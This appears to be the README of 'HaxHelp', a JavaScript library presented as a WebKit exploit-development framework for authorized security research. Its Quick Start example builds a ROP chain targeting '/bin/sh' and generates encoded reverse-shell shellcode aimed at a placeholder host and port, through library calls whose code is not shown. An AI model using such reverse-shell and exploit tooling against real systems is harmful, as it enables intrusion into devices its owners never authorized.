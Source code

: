 # HaxHelp - Advanced WebKit Exploitation Framework

A comprehensive JavaScript library designed to aid security researchers in WebKit vulnerability analysis and exploit development. Also check out [jitPhone!](https://github.com/SammyLord/jitphone)

## ⚠️ Legal and Ethical Use Only

This library is intended for:
- Security research and vulnerability analysis
- Bug bounty hunting on authorized targets
- Penetration testing with proper authorization
- Educational purposes in controlled environments
- Defensive security research

**DO NOT use this library for malicious purposes or on systems you don't own or have explicit permission to test.**

## Features

### Core Utilities
- **Memory Management**: Advanced heap grooming, garbage collection control, memory corruption detection
- **Object Inspection**: Deep object analysis, property enumeration, prototype chain inspection
- **Type Confusion**: Advanced utilities for type confusion vulnerability research
- **ROP Chain Building**: Comprehensive return-oriented programming chain construction
- **Debugging**: Advanced debugging and introspection tools with crash analysis
- **Shellcode**: Shellcode generation, encoding, and payload management

### WebKit Specific
- **JIT Analysis**: JavaScript JIT compiler analysis and manipulation tools
- **Engine Internals**: WebKit/JavaScriptCore internals exploration and exploitation
- **DOM Manipulation**: Advanced DOM object manipulation and corruption techniques
- **Memory Layout**: Heap layout analysis, visualization, and controlled corruption
- **Browser Exploitation**: Browser-specific exploitation techniques and primitives

### Advanced Exploitation
- **Use-After-Free**: UAF vulnerability simulation and exploitation frameworks
- **Buffer Overflow**: Advanced buffer overflow detection and exploitation tools
- **Information Disclosure**: Memory disclosure and information leakage techniques
- **Privilege Escalation**: Browser sandbox escape and privilege escalation utilities
- **Exploit Development**: Complete exploit development and testing framework

## Installation

```html
<script src="haxhelp.js"></script>
```

## Quick Start

```javascript
// Initialize the library
const hh = new HaxHelp();

// Advanced memory manipulation
hh.memory.advancedGrooming(0x1000, 200, 'controlled');

// Object analysis with exploitation focus
const analysis = hh.inspect.deepAnalyze(targetObject, 'exploitation');

// ROP chain building with automatic gadget discovery
const ropChain = hh.rop.autoChain({
    target: 'system_call',
    args: ['/bin/sh'],
    constraints: ['no_null_bytes']
});

// Advanced shellcode generation
const shellcode = hh.shellcode.generate({
    type: 'reverse_shell',
    host: '127.0.0.1',
    port: 4444,
    encoding: 'alphanumeric'
});
```

## Documentation

See the `docs/` directory for detailed documentation and examples.

## Responsible Disclosure

If you discover vulnerabilities using this library, please follow responsible disclosure practices and report them to the appropriate vendors through official channels.

## License

MIT License - See LICENSE file for details.

## Author

Created by Sammy Lord - Advanced vibe coder.

## Contributing

Contributions are welcome! Please ensure all contributions align with responsible security research practices. 
